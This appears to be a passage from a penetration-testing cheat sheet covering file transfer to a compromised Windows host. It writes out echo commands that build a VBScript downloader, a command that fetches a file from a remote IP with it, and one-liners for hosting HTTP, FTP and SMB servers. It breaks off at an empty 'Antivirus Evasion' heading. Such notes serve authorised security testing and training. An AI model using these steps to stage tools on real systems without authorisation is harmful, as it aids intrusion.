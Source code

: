 ### Vbscript

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

_Running the script_

```
cscript wget.vbs http://192.168.1.2/xyz.txt xyz.txt
```

### Python2 HTTP server

```
python2 -m SimpleHTTPServer -d [directory/path/] [port]
```

### Python2 FTP server

```
python2 -m pyftpdlib -p 21
```

### Python2 SMB server

```
smbserver.py share `pwd` -smb2support -ip 172.16.0.1
```

## Antivirus Evasion

